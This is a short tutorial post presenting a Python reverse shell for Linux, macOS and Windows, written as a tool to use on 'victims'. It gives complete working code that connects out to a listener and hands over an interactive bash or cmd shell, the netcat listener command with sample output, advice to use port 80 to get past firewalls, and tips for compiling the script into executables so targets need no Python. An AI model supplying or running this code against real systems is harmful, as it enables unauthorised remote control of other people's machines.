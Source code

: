 # Python Multi-Platform Reverse Shell
30.06.2020, 23:34 - Author: Dorian V.


This is an easy yet powerfull Reverseshell written in Python. With this Shell you can go through the victims Firewall since the connection is 
going from the inside to the outsite.


### Tested on Python 3.6 under Kali Linux

```python
#!/usr/bin/python
import socket, subprocess, os, sys

# build connection
soc = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
soc.connect(("192.168.1.186", 80))

# Mac OSX, Unix, Linux or Win with Cygwin
if sys.platform != "win32":
    os.dup2(soc.fileno(), 0)
    os.dup2(soc.fileno(), 1)
    os.dup2(soc.fileno(), 2)
    # Windows with Cygwin - run cmd.exe
    if sys.platform == "cygwin":
        proc = subprocess.call(["C:\Windows\System32\cmd.exe"])
    # OSX, Unix, Linux - run bash
    else:
        proc = subprocess.call(["/bin/bash", "-i"])
# Windows 
else:
    data = soc.recv(1024)
    cmd = subprocess.Popen(data, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE)
    STDOUT, STDERR = cmd.communicate()
    soc.send(STDOUT)
    soc.send(STDERR)
```

<br>
For the victim to be able to properly connect with us, we need to launch a Server-Service like Netcat on our machine:
<br>
<br>

```markdown
root@kali:~# nc -l -p 80
bash: no job control in this shell
bash-3.2$ whoami
dorian
bash-3.2$ id
uid=501(dorian) gid=20(dorian)
groups=20(staff), 501(access_bpf), 12(everyone), 61(localaccounts), 79(_appserverusr), 80(admin), 81(_appserveradm), 98(_lpadmin), 701(com.apple.sharepoint.group.1), 33(_appstore), 100(_lpoperator), 204(_developer), 395(com.apple.access_ftp), 398(com.apple.access_screensharing), 399(com.apple.access_ssh)
```

<br>
In this example -l stands for listen and -p 80 for port 80. At this point it is worth mentioning to use standart ports like 80 for HTTP which usually are not getting blocked by the Firewall.


Of course not everybody has Python already installed. For this case there are Compiler for Python like *py2exe*(Win), *cx_Freeze*(Cross-Plattform), *py2app*(OSX), or *Nuitka*(Cross-Plattform).

<br>
<br>
